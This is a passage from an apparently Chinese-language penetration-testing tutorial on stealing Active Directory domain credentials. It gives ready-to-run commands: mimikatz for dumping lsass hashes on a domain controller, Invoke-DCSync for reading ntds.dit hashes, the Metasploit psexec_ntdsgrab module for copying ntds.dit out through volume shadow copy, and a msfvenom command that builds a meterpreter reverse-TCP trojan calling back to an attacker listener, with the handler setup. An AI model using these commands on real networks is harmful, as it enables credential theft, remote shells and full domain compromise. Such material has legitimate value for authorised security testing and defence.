 [![5zJybn.png](https://z3.ax1x.com/2021/10/30/5zJybn.png)](https://imgtu.com/i/5zJybn)

也可以直接在域控制器中运行 mimikatz，通过转储 lsass.exe 进程对散列值进行 dump 操作：

```
privilege::debug
lsadump::lsa /inject
```

[![5zygO0.png](https://z3.ax1x.com/2021/10/30/5zygO0.png)](https://imgtu.com/i/5zygO0)

如果没有预先执行 privilege::debug 命令，将导致权限不足，读取失败。如果用户数量太多 mimikatz 无法完全将其显示出来，可以先执行log命令(会在 mimikatz 目录下生成一个文本文件，用于记录 mimikatz 的所有执行结果)。

#### 3.2使用dcsync获取域账号和域散列值

Invoke-DCSync.ps1 可以利用 dcsync 直接读取 ntds.dit，以获取域账号和域散列值。(该脚本通过 Invoke-ReflectivePEinjection 调用 mimikatz.dll 中的 dcsync 功能，并利用 dcsync 直接读取 ntds.dit 得到域用户密码散列值)

`Invoke-DCSync -PWDumpFormat`后面的参数用于格式化输出散列值

```
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -PWDumpFormat
```

[![5zcIMR.png](https://z3.ax1x.com/2021/10/30/5zcIMR.png)](https://imgtu.com/i/5zcIMR)

### 四、使用MSF获取域散列值

#### 4.1psexec_ntdsgrab 模块的使用

```
use auxiliary/admin/smb/psexec_ntdsgrab
```

输入``show options``命令，查看需要配置的参数：

[![IStvZj.png](https://z3.ax1x.com/2021/10/31/IStvZj.png)](https://imgtu.com/i/IStvZj)

将 RHOST, SMBDomain, SMBUser, SMBPass 配置完成。

[![ISUr36.png](https://z3.ax1x.com/2021/10/31/ISUr36.png)](https://imgtu.com/i/ISUr36)

run 或 exploit，(一次不成多试试)该脚本使用卷影拷贝服务，将 ntds.dit 文件和 system 项复制并传送到Kali中的``/root/.msf4/loot/``文件夹下。

[![ISapvT.png](https://z3.ax1x.com/2021/10/31/ISapvT.png)](https://imgtu.com/i/ISapvT)

然后就可以使用impacket 工具包等解析 ntds.dit 文件，导出域账号和域散列值。

#### 4.2基于 MSF 会话获取域账号和域散列值

生成木马：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.78.131 LPORT=4444 -f exe>msf.exe
```

监听

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit -j -z
```
